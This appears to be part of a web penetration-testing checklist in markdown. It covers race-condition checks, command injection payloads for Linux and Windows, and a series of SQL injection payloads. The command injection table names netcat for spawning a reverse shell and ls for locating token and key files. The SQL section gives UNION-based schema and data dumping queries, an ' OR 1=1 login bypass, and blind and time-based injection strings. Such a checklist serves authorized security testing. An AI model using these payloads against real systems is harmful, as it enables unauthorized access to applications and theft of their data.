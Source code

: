     - [ ]  Check to see if there are some form of “transfers” happening (i.e., payment systems, impressions, account transfers). Test if multiple, simultaneous requests can be made at a time.
    
    ## Command Injection
    
    - [ ]  Tools to leverage
        
        Linux
        
        | **Payload** | **Description** |
        | --- | --- |
        | whoami | See what user the application is running under. |
        | ls | List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things. |
        | ping | This command will invoke the application to hang. This will be useful in testing an application for blind command injection. |
        | sleep | This is another useful payload in testing an application for blind command injection, where the machine does not have `ping` installed. |
        | nc | Netcat can be used to spawn a reverse shell onto the vulnerable application. You can use this foothold to navigate around the target machine for other services, files, or potential means of escalating privileges. |
        
        Windows
        
        | **Payload** | **Description** |
        | --- | --- |
        | whoami | See what user the application is running under. |
        | dir | List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things. |
        | ping | This command will invoke the application to hang. This will be useful in testing an application for blind command injection. |
        | timeout | This command will also invoke the application to hang. It is also useful for testing an application for blind command injection if the `ping` command is not installed. |
    - [ ]  Encode commands (hex, url, etc.)
    - [ ]  Leverage shell operators (&, &&, ;)
    - [ ]  Leverage code comments (#, //)

## SQL Injection

- [ ]  *value* UNION SELECT {1,2,3} - must do error based checking to determine the total colums
- [ ]  0 UNION SELECT 1,2,database() - check which database we have access to
- [ ]  0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '*database_name*’
- [ ]  0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = '*table_of_interest’*
- [ ]  0 UNION SELECT 1,2,group_concat(*column_name*,':',*column_name* SEPARATOR '<br>') FROM *table of interest*
- [ ]  `' OR 1=1;--`
    * Because 1=1 is a true statement and we've used an **OR** operator, this will always cause the query to return as true, which satisfies the web applications logic that the database found a valid username/password combination and that access should be allowed.

- [ ]  admin123' UNION SELECT 1,2,3 where database() like 's%';— blind based injection used to guess letters of a database
- [ ]  admin123' UNION SELECT SLEEP(5),2;— - times based injection using two columns